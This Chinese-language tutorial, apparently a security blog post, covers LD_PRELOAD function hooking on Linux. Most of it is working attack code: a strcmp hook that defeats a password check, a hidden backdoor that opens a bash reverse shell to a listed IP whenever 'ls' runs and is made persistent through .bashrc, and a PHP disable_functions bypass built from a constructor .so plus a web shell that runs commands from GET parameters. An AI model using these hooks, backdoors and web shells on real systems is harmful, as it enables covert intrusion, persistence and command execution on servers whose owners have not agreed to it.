

## 简介
程序的链接有如下三种：

1. 静态链接：在程序运行之前先将各个目标模块以及所需要的库函数链接成一个完整的可执行程序，之后不再拆开
2. 装入时动态链接：源程序编译后所得到的一组目标模块，在装入内存时，边装入边链接
3. 运行时动态链接：原程序编译后得到的目标模块，在程序执行过程中需要用到时才对它进行链接

对于动态链接来说活，需要一个动态链接库，其作用在于当动态库的函数发生变化对于壳执行程序来说是透明的，可执行程序无需重新编译，方便程序的发布/维护/更新。但是由于程序是在运行时动态加载，这就存在一个问题，当需要动态加载的函数是恶意的，就有可能导致一些非于其的执行结果，或者绕过某些安全设置(如 Linux 环境下，绕过PHP的disable_functions)
我们这里着重讨论运行时动态链接
## LD_PRELOAD
LD_PRELOAD 是 Linux 系统中的一个环境变量，它可以影响程序的运行时的链接（Runtime linker），它允许你定义在程序运行前优先加载的动态链接库。这个功能主要就是用来有选择性的载入不同动态链接库中的相同函数。通过这个环境变量，我们可以在主程序和其动态链接库的中间加载别的动态链接库，甚至覆盖正常的函数库。一方面，我们可以以此功能来使用自己的或是更好的函数（无需别人的源码），而另一方面，我们也可以以向别人的程序注入程序，从而达到特定的目的。
> LD_PRELOAD is an optional environmental variable containing one or more paths to shared libraries, or shared objects, that the loader will load before any other shared library including the C runtime library (libc.so) This is called preloading a library.

## LD_PRELOAD Hook
由于 LD_PRELOAD 可以指定在程序运行前优先加载的动态链接库，那我们可以重写程序运行过程中所调用的函数并编译成动态链接库文件，然后通过指定 LD_PRELOAD 让程序优先加载的这个恶意的动态链接库，最后当程序再次运行时便会加载动态链接库中的恶意函数。具体的操作步骤如下：

1. 定义与目标函数完全一样的函数，包括名称、变量及类型、返回值及类型等
2. 将包含替换函数的源码编译为动态链接库。
3. 通过命令 **export LD_PRELOAD="库文件路径"**，设置要优先替换动态链接库即可。
4. 替换结束，要还原函数调用关系，用命令**unset LD_PRELOAD** 解除

在这里我通过一个简单的实例来进行演示
```c
// passwordCheck.c
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv) {
    char passwd[] = "password";
    if (argc < 2) {
        printf("usage: %s <given-password>\n", argv[0]);
        return 0;
    }
    if (!strcmp(passwd, argv[1])) {
        printf("\033[0;32;32mPassword Correct!\n\033[m");
        return 1;
    } else {
        printf("\033[0;32;31mPassword Wrong!\n\033[m");
        return 0;
    }
}
```
```shell
// 编译生成可执行文件
gcc passwordCheck.c -o passwordCheck
```

可以看到当输入正确的密码返回的是 Password Correct，密码错误则返回 Password Wrong。这其中用到了标准C函数`strcmp`函数来做比较，这是一个外部调用函数。下面我们尝试重新编写一个与strcmp同名的函数，并编译成动态链接库，实现劫持原函数的功能。

```c
//hook_strcmp.c
#include<stdlib.h>
#include<string.h>
int strcmp(const char *s1, const char *s2){
    if(getenv("LD_PRELOAD") == NULL){
        return 0;
    }
    unsetenv("LD_PRELOAD");
    return 0;
}
```
> 由于我们通过 LD_PRELOAD 劫持了函数，劫持后启动了一个新进程，若不在新进程启动前取消 LD_PRELOAD，则将陷入无限循环，所以必须得删除环境变量 LD_PRELOAD，最直观的做法是调用 unsetenv("LD_PRELOAD")

执行命令编译生成`hook_strcmp.so`
```shell
gcc -shared -fPIC hook_strcmp.c -o hook_strcmp.so
```
然后通过环境变量 LD_PRELOAD 来设置 hook_strcmp.so 能被其他调用它的程序优先加载

此时我们便成功劫持了原程序 passwordcheck 中的 strcmp 函数。
## 利用LD_PRELOAD Hook 系统命令并制作后门
当我们得知了一个系统命令所调用的库函数 后，我们可以重写指定的库函数进行劫持。这里我们以 ls 命令为例进行演示。
首先查看 ls 这一系统命令会调用哪些库函数
```shell
whereis ls
readelf -Ws /usr/bin/ls
```

如上图所示可以看到很多库函数，我们随便选择一个合适的进行重写即可，这里我选择的是 strncmp：
```c
// hook_strncmp.c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

void payload() {
    system("id");
}

int strncmp(const char *__s1, const char *__s2, size_t __n) {    // 这里函数的定义可以根据报错信息进行确定
    if (getenv("LD_PRELOAD") == NULL) {
        return 0;
    }
    unsetenv("LD_PRELOAD");
    payload();
}
```
```shell
gcc -shared -fPIC hook_strncmp.c -o hook_strncmp.so
```
然后通过环境变量 LD_PRELOAD 来设置 hook_strncmp.so 能被其他调用它的程序优先加载：
```shell
export LD_PRELOAD=$PWD/hook_strncmp.so
```
最后执行`ls`发现会优先执行`hook_strncmp.so`库中的strncmp函数 ，这时就会调用`system("id");`方法，此时成功劫持了 strncmp 函数。

 利用这种思路，我们可以制作一个隐藏的 Linux 后门，比如当管理员执行 ls 命令时会反弹一个 Shell：
```c
// hook_strncmp.c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

void payload() {
    system("bash -c 'bash -i >& /dev/tcp/192.168.93.128/8888 0>&1'");
}

int strncmp(const char *__s1, const char *__s2, size_t __n) {    // 这里函数的定义可以根据报错信息进行确定
    if (getenv("LD_PRELOAD") == NULL) {
        return 0;
    }
    unsetenv("LD_PRELOAD");
    payload();
}
```
然后将其写入`.bash_profile`或者`.bashrc`中
```shell
# .bash_profile start
export LD_PRELOAD="<your_so_absolute path>"
# .bash_profile end
# env start
source ~/.bash_profile
# or
source ~/bashrc
# env end
ls
```

## PHP bypass Disable_Functions
当`php.ini`中设置了`disable_functions`，表示php不支持以下函数的调用，那么危险的执行系统命令的函数将不可用，这时需要可以在内部启动一个新的进程，在该进程中通过使用环境变量`LD_PRELOAD`劫持系统函数，让外部程序加载恶意动态链接库文件，从而达到命令执行的效果

基于这一思路，将突破 disable_functions 限制执行操作系统命令这一目标，大致分解成以下几个步骤：

1. 查看进程调用的系统函数明细
2. 找寻内部可以启动新进程的 PHP 函数
3. 找到这个新进程所调用的系统库函数并重写
4. PHP 环境下劫持系统函数注入代码

虽然 LD_PRELOAD 提供了劫持系统函数的能力，但前提是得控制 PHP 启动外部程序才行，并且只要有进程启动行为即可，无所谓是谁。所以我们要寻找内部可以启动新进程的 PHP 函数。运行 PHP 的 mail() 函数，mail() 内部启动新进程 /usr/sbin/sendmail，由于 LD_PRELOAD 的作用，sendmail 调用的系统函数 geteuid() 被优先级更好的 geteuid_shadow.so 中的同名 geteuid() 所劫持。
### C(so)
```c
#define _GNU_SOURCE

#include <stdlib.h>
#include <stdio.h>
#include <string.h>


extern char** environ;

int geteuid ()
{
    const char* cmdline = "whoami > /var/www/html/test.txt";
    int i;
    for (i = 0; environ[i]; ++i) {
            if (strstr(environ[i], "LD_PRELOAD")) {
                    environ[i][0] = '\0';
            }
    }
    system(cmdline);
}
```
### php 
```php
<?php
    putenv("LD_PRELOAD=/var/www/html/hack.so");
    mail("","","","","");
?>
```
分别将动态库test.so文件，php脚本test.php上传到服务器中，再访问test.php脚本文件，如果成功将geteuid函数劫持，那么将会把whoami命令结果重定向在/var/www/html/test.txt文件中

### 利用 LD_PRELOAD 劫持系统新进程来绕过
在真实环境中，存在两方面问题：一是，某些环境中，web 禁止启用 sendmail、甚至系统上根本未安装 sendmail，也就谈不上劫持 getuid()，通常的 www-data 权限又不可能去更改 php.ini 配置、去安装 sendmail 软件；二是，即便目标可以启用 sendmail，由于未将主机名（hostname 输出）添加进 hosts 中，导致每次运行 sendmail 都要耗时半分钟等待域名解析超时返回，www-data 也无法将主机名加入 hosts（如，127.0.0.1 lamp、lamp.、lamp.com）。基于这两个原因，不得不放弃劫持函数 geteuid()，必须找个更实用的方法。回到 LD_PRELOAD 本身，系统通过它预先加载共享对象，如果能找到一个方式，在加载时就执行代码，而不用考虑劫持某一系统函数，那就完全可以不依赖 sendmail 了。

GCC 有个 C 语言扩展修饰符 __attribute__((constructor))，可以让由它修饰的函数在 main() 之前执行，若它出现在共享对象中时，那么一旦共享对象被系统加载，立即将执行 __attribute__((constructor)) 修饰的函数。这一细节非常重要，很多朋友用 LD_PRELOAD 手法突破 disable_functions 无法做到百分百成功，正因为这个原因，不要局限于仅劫持某一函数，而应考虑拦劫启动进程这一行为。

此外，通过 LD_PRELOAD 劫持了启动进程的行为，劫持后又启动了另外的新进程，若不在新进程启动前取消 LD_PRELOAD，则将陷入无限循环，所以必须得删除环境变量 LD_PRELOAD。最直观的做法是调用 unsetenv("LD_PRELOAD")，这在大部份 linux 发行套件上的确可行，但在 centos 上却无效，究其原因，centos 自己也 hook 了 unsetenv()，在其内部启动了其他进程，根本来不及删除 LD_PRELOAD 就又被劫持，导致无限循环。所以，我得找一种比 unsetenv() 更直接的删除环境变量的方式。是它，全局变量 extern char** environ！实际上，unsetenv() 就是对 environ 的简单封装实现的环境变量删除功能。
#### C(so)
这个修饰符__attribute__ ((__constructor__)) 只要启动进程便会进行劫持
```c
#define _GNU_SOURCE

#include <stdlib.h>
#include <stdio.h>
#include <string.h>


extern char** environ;

__attribute__ ((__constructor__)) void preload (void)
{
    // get command line options and arg
    const char* cmdline = getenv("EVIL_CMDLINE");

    // unset environment variable LD_PRELOAD.
    // unsetenv("LD_PRELOAD") no effect on some 
    // distribution (e.g., centos), I need crafty trick.
    int i;
    for (i = 0; environ[i]; ++i) {
            if (strstr(environ[i], "LD_PRELOAD")) {
                    environ[i][0] = '\0';
            }
    }

    // executive command
    system(cmdline);
}
```
#### php
```php
<?php
    $cmd = $_GET["cmd"];
    $out_path = $_GET["outpath"];
    $evil_cmdline = $cmd . " > " . $out_path . " 2>&1";
    echo "<p> <b>cmdline</b>: " . $evil_cmdline . "</p>";

    putenv("EVIL_CMDLINE=" . $evil_cmdline);

    $so_path = $_GET["sopath"];
    putenv("LD_PRELOAD=" . $so_path);

    mail("", "", "", "");

    echo "<p> <b>output</b>: 
" . nl2br(file_get_contents($out_path)) . "</p>"; 

    unlink($out_path);
?>
```
```shell
gcc -fPIC -shared hack.c -o hack.so
```
分别将动态库hack.so文件，php脚本hack.php上传到服务器中，再访问hack.php脚本文件，并带上参数cmd(待执行的命令)，outpath(结果重定向文件位置),sopath(加载动态链接库的位置)


## 参考链接
[https://www.anquanke.com/post/id/254388#h2-4](https://www.anquanke.com/post/id/254388#h2-4) 

[https://www.freebuf.com/articles/web/192052.html](https://www.freebuf.com/articles/web/192052.html)

[https://blog.csdn.net/weixin_45146120/article/details/104909730](https://blog.csdn.net/weixin_45146120/article/details/104909730)

